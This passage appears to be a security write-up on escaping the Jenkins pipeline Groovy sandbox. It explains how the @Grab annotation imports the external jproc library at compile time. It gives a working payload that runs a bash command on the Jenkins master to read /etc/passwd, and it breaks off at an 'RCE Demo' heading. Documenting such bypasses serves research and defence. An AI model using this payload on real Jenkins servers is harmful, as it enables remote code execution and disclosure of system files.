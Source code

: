 ## The Grab Annotation

The `Grab` is an annotation implemented within the [Grape](http://docs.groovy-lang.org/latest/html/documentation/grape.html), a JAR dependency manager embedded into Groovy. By using Grape, we can add any external maven repository dependencies to the classpath.

Example usage of Grab annotation is:

```groovy
 @Grab('commons-lang:commons-lang:2.4')
 import org.apache.commons.lang.WordUtils
 println "Hello ${WordUtils.capitalize('world')}"
```

During compile-time, this will add `commons-lang:commons-lang:2.4` library as dependency in classpath. Then, we can import `org.apache.commons.lang.WordUtils` defined from `commons-lang`.

## Exploit Idea

For information, Jenkins's pipeline build script is written in groovy. Upon executing a pipeline job, this build script will be compiled \(and executed\) in Jenkins master, resulting in a definition of the pipeline, e.g. what to do in slave nodes. As a security measure, Jenkins provides a mechanism for the script to be executed in _sandbox mode_. In sandbox mode, all dangerous functions are blacklisted, so regular user cannot do anything malicious to the Jenkins node servers.

As mentioned before, the build script is written in Groovy. Groovy script allows us to use any class or function in Java packages. However, in sandbox mode, dangerous built-in ones are blacklisted. But we can see that's not the case for **non-built-in** class.

Furthermore, we can use meta-programming available in Groovy to execute code during compile-time, which leads us to the `Grab` annotation. With `Grab`, we can make Jenkins import arbitrary packages from external maven repository during build-script compile-time.

So the idea is: we need the Jenkins master process runner to import a java class with command execution functionality during job script compile-time. Then, we use that java class to execute shell command in Jenkins master.

## Using @Grab to import malicious class

Some googling leads us to a java library called `jproc`. After quick examination, we can use [`ProcBuilder`](https://github.com/fleipold/jproc/blob/master/src/main/java/org/buildobjects/process/ProcBuilder.java) class defined in [`org.buildobjects:jproc:2.2.3`](https://mvnrepository.com/artifact/org.buildobjects/jproc/2.2.3) to run system shell command.

So, putting everything together, the payload is defined as below:

```groovy
import org.buildobjects.process.ProcBuilder
@Grab('org.buildobjects:jproc:2.2.3')
class Dummy{ }
print new ProcBuilder("/bin/bash").withArgs("-c","cat /etc/passwd").run().getOutputString()
```

## RCE Demo
